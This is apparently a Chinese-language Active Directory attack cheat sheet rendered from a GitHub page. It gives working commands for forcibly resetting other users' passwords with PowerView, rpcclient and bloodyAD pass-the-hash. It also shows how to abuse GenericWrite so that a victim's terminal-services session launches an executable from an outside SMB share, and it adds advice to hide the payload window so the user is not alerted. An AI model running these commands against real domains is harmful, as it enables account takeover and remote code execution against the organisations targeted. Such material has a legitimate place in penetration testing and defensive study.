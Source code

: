 	重置其他用户的密码
	Windows 上
	https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
	$user = 'DOMAIN\user1'; 
	$pass= ConvertTo-SecureString 'user1pwd' -AsPlainText -Force; 
	$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
	$newpass = ConvertTo-SecureString 'newsecretpass' -AsPlainText -Force; 
	Set-DomainUserPassword -Identity 'DOMAIN\user2' -AccountPassword $newpass -Credential $creds;
	Linux 上
	使用 Samba 软件套件中的 rpcclient
	>rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
	使用bloodyAD来pass-the-hash
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B changePassword target_user target_newpwd
 #### GenericWrite和远程连接管理器
	https://sensepost.com/blog/2020/ace-to-rce/
	RCM 仅在终端服务器/远程桌面会话主机上处于活动状态。RCM 在最新版本的 Windows (>2016) 上也被禁用，它需要更改注册表才能重新启用。
	$UserObject = ([ADSI]("LDAP://CN=User,OU=Users,DC=ad,DC=domain,DC=tld"))
	$UserObject.TerminalServicesInitialProgram = "\\1.2.3.4\share\file.exe"
	$UserObject.TerminalServicesWorkDirectory = "C:\"
	$UserObject.SetInfo()
	为了不提醒用户，payload 应该隐藏自己的进程窗口并生成正常的图形环境